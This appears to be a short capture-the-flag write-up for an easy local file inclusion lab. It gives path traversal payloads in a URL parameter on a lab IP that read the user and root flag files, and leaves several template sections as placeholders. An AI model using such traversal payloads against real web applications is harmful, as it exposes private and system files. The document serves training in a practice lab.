 # LFI 🧭

Names | Details
--------|-----
Source | tryhacckme
Level     | easy
Os |

**Notes :**




## Gaining Access 😉

- just find a LFI vulnerable url  "http://10.10.145.12/article?name="



## Maintaining Access 🥷
- user flag :http://10.10.145.12/article?name=../../../../../../../../../home/falcon/user.txt
- root flag :user flag :http://10.10.145.12/article?name=../../../../../../../../../root/root.txt
## Important commands 🔥
- 

## Post Exploitation ✴️
- User flag : /home/falcon/user.txt
- Root flag : /root/root.txt
## Tips 💡
- something


--------------------------------
**By Whois~TCP ** 🤓🖥️










